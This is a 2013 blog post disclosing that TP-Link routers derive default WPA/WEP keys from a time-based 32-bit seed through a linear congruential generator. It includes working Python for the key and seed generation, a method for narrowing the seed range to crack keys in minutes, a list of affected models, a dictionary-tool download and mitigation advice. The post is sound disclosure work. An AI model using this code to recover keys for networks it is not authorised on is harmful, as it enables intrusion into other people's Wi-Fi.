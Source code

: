 ```yaml
---
layout: post
date: 2013-03-31 00:00:00 UTC
title: WPA2 Key Generation Vulnerability: TP-Link
---
```


These days I have been playing with my new WLAN router, a [TP-Link TD-W8970](http://www.tp-link.com/en/products/?categoryid=203), and I have found a particularly interesting issue that affects other TP-Link routers as well. These routers can be recognized by the ESSID key `TP-LINK_XXXXXX`. Their default key for WPA/WPA2 and WEP is 10 and 13 characters in length respectively, apparently in range `[0-9A-Z]` and randomly generated by the [EasySetupAssistant](http://www.tp-link.com/mx/support/download/?model=TD-W8970&amp;version=V1#tbl_b).

Based on this, the corresponding handshake of such a WPA/WPA2 key, bruteforced with typical GPU speeds of 20000 keys / second, would require 36^10 / 20000 seconds = 182807922003.1488 seconds = 5796.8011 years to be cracked. However, by disassembling the setup assistant, I realized this key is generated from a 32-bit seed by following a [linear congruential generator](http://en.wikipedia.org/wiki/Linear_congruential_generator) reducing our key set from 36^10 keys to 2^32 keys. The reversed generator is:

```python
chars = "2345678923456789ABCDEFGHJKLMNPQRSTUVWXYZ"
def gen(seed, length): #length=10 in WPA/WPA2, length=13 in WEP 
    key = ""
    for i in range(length):
        seed = (seed * 0x343FD) + 0x269EC3
        key += chars[((seed >> 0x10) & 0x7FFF) % 0x28]
    return key
```

Furthermore, note how the for every 32-bit integer seed `k` the following condition holds: `gen(k, length) == gen(k + 0x80000000, length)`. This reduces the keys to check to 2^31. At the previously mentioned computing speed, this implies finding such a key in 231 / 20000 seconds = 1.24 days.

There is an additional issue affecting the seed generation that can help reducing the password dictionaries even more. These 32-bit seeds grow linearly, specifically increasing by 1 every second as the system time passes. In Windows, the system time is obtained via `GetSystemTimeAsFileTime` from `Kernel32.dll`. The equivalent code is:

```python
import datetime
 
def genSeed(currentTime):
    dt = currentTime - datetime.datetime(1601, 1, 1, 0, 0, 0)
    t = dt.days*864000000000 + dt.seconds*10000000 + dt.microseconds*10
 
    tA = (t / 2**32 + 0xFE624E21)
    tB = (t % 2**32 + 0x2AC18000) % (1 << 32)
 
    if tA >= (1 << 32):
        tA += 1
        tA %= (1 << 32)
 
    r = (tA % 0x989680) * (2**32)
    r = ((r + tB) / 0x989680) % (2**32)
    return r
 
print genSeed(datetime.datetime.utcnow())
```

If we can estimate the time interval in which the router was installed, we can reduce the total seeds from 2^31 to the seeds that could be generated in that specific time interval. For instance, if we are confident that such a router was installed during 2012, we would only have to check the keys corresponding to seeds between `0x4EFFA3AD` y `0x50E22700`:

```python
genSeed(datetime.datetime(2012, 1, 1, 0, 0, 0))  # 0x4EFFA3AD
genSeed(datetime.datetime(2013, 1, 1, 0, 0, 0))  # 0x50E22700
```

At the previously mentioned speed, we could potentially crack the password in a worst-case time of (0x50E22700 - 0x4EFFA3AD) / 20000 seconds = 26.35 minutes.

Since this would be an attack based on guessing the time in which the setup assistant configured the router, we could improve the speed.

*
*

## Affected routers

I have verified all setup assistants distributed with TP-Link routers and all *TL-WA*, *TL-WR*, *TL-WDR* series and *TD-WXXXX*, *TD-VGXXXX* models are affected. In about 10% of these routers I wasn't able to download the *EasySetupAssistant* through the link TP-Link provided, but I am confident enough that the results of same routers of the series can be extrapolated to them.

The complete list of affected routers is:

* TL-W8151N (V1, V3)
* TL-WA730RE (V1, V2*)
* TL-WA830RE (V1, V2*)
* TL-WDR3500
* TL-WDR3600
* TL-WDR4300
* TL-WR720N
* TL-WR740N (V1, V2, V3, V4)
* TL-WR741ND (V1, V2, V3*,V4)
* TL-WR841N (V1*,V5, V7, V8)
* TL-WR841ND (V3, V5, V7, V8*)
* TL-WR842ND
* TL-WR940N (V1, V2)
* TL-WR941ND (V2, V3, V4, V5)
* TL-WR1043N
* TL-WR1043ND
* TD-VG3511 (V1*)
* TD-VG3631
* TD-W8901N
* TD-W8950ND
* TD-W8951NB (V3*,V4, V5)
* TD-W8951ND (V1, V3, V4, V5)
* TD-W8960N (V1, V3, V4)
* TD-W8961NB (V1, V2, V3*)
* TD-W8961ND
* TD-W8968
* TD-W8970

## Resources

* __TPLink-GenKeys__: Choose key type, the seed range which can be calculated with the previous tool. Information about dictionary to be generated will be given, accept to generate it in `./output.txt`. Download: http://www.mediafire.com/download.php?28z2fvdgpf22s68

## Solutions

* Do not use seeds at all. Feed the results of a cryptographically secure PRNG such as `/dev/random` or `/dev/urandom` in Unix-like sytems as indices of the character array modulo its length. This is for instance what the Linksys E4200 WLAN routers do, the indices of the key character array are provided by `CryptGenRandom` in `Advapi32.dll`.
* If for some reason you want to use seeds for generating keys:
  * Make them bigger than 32-bit. Just 2^32 keys are easy to check.
  * Obtain them from a cryptographically secure PRNG.
  * If you still want to obtain them from the system time, use low granularity time intervals (e.g. elapsed time in nanoseconds rather than seconds) to minimize the number of bits an attacker can guess. 
